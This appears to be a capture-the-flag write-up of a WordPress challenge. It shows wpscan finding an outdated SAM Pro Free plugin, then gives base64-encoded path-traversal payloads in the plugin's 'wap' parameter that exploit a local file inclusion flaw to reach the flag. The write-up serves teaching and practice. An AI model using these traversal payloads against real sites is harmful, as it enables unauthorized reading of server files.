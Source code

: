 # What The LFI ?

![](./img/1.png#center)

![](./img/2.png#center)

So the website is a wordpress and we are searching for a LFI. First thing I search for links where the LFI could be :

[http://54.201.224.15:14099/?p=1](http://54.201.224.15:14099/?p=1)

[http://54.201.224.15:14099/?cat=1](http://54.201.224.15:14099/?cat=1)

[http://54.201.224.15:14099/?s=test](http://54.201.224.15:14099/?s=test)

And I try basic LFI like this :

[http://54.201.224.15:14099/?p=/var/www/blah.php](http://54.201.224.15:14099/?p=/var/www/blah.php)

[http://54.201.224.15:14099/?p=http://google.fr](http://54.201.224.15:14099/?p=http://google.fr)

We are just redirect, on the index page. Our LFI might not be here, let’s try a wpscan since it’s a wordpress. Command :

```
wpscan 54.201.224.15:14099
```

Result :

![](./img/3.png#center)

Interesting there is a plugin not up to date, and there is the LFI.

The scan gives us the location and some reference. Let’s check the reference. We have a Proof of Concept in this one :

[Link](https://www.pluginvulnerabilities.com/2016/10/28/local-file-inclusion-lfi-vulnerability-in-sam-pro-free-edition/)

We can see that the link “wap” is base64, so let’s base64 our path :

```
/var/www/blah.php → L3Zhci93d3cvYmxhaC5waHAK
```

[http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/](http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/)

Url :

[http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=L3Zhci93d3cvYmxhaC5waHAK](http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=L3Zhci93d3cvYmxhaC5waHAK)

Result :

![](./img/4.png#center)

It’s not working because we are in the wrong directory, let’s change it by :

```
../../../../blah.php → Li4vLi4vLi4vLi4vYmxhaC5waHA=
```

Final url :

[http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Li4vLi4vLi4vLi4vYmxhaC5waHA=](http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Li4vLi4vLi4vLi4vYmxhaC5waHA=)

> The flag : flag{dont_include_files_derived_from_user_input_kthx_bai}